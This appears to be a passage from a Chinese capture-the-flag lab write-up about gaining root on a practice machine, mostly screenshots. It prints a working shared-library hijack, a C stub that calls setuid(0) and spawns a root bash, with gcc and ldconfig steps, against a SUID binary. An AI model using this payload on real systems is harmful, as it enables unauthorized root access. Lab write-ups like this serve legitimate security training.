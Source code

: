 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoegAArnF9x74V7sYsFe1iao0Kefnh0qicS9E6t65sAeiaAoyZkT2zwuiamlw/640?wx_fmt=png)

LinEnum 枚举靶机信息后，SUID 中 myexec 二进制存在问题...

执行需要输入密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoeG1Yibfgna4EHQs6db4p09x0kicRficqyzMavncP2Kdlod3x5DbaLdk9ug/640?wx_fmt=png)

将文件传输到本地 kali 进行分析...

利用 IDA 或者 R2 发现了密码？？

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoelxMY1iaA8QSbnHiaicPNVJwHwB38UnYAG5CQBZqmXVekwO9KiaDLic7CgvQ/640?wx_fmt=png)

尝试后成功执行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoeoROibrVQMnPjExlAA01zViaOSbHQyKOPibyhUrjKHfC02l0rktRGzcR6A/640?wx_fmt=png)

利用 ldd 显示出了列表动态依赖的内容... 看到 libseclogin.so

还有输出的内容 seclogin() called

可以替换 libseclogin.so 为另一个文件并链接到它，然后二进制文件将以 root 身份执行... 获得权限

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoedYYDKc6pGKDXNLNmsPkwQiaeWRuvJsicGrnNFEtjXhOFziboagZcfPjpQ/640?wx_fmt=png)

```
#include <stdio.h>


void seclogin() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
gcc -fPIC -shared -o libseclogin.so exploit.c
```

建立 bash 的 shell，进行 gcc 编译... 覆盖 libseclogin.so...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoe8IWiabqmh5gS34jLOuP2PSe8ST6ZCiayxs99yW51foAjOA1xkW9l9pBA/640?wx_fmt=png)

然后要在 / etc/ld.so.conf.d 下创建一个. conf 文件，并把我们的 EXP 文件路径写入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMRTMU7ISFpoicWsEXzSWhoeHiaTw7bQqWtQWURyH2UBfRo92yLOEpeeicPemoypg9FcZslJBOEicxtRA/640?wx_fmt=png)

利用 ldconfig 调用动态链接... 将 myexec 的 libseclogin.so 调用到 / dev/shm 目录下即可...

![](https://mmbiz.qpic.cn/mmbiz_png/sGWlDp8sFCl67vCmcZr3JtQP0jB8suQiaKaKCVYPOezloiaicS8xMkAriaAQd3dTOPXicBTVStlX66kEffEWJOiczUTA/640?wx_fmt=png)

然后重新执行 myexec 后，或得了 root 权限，并获得了 user_flag 信息....

wfuzz 模糊枚举 --john 和 hydra 爆破 --SUID 二进制文件分析提权

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台高级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。
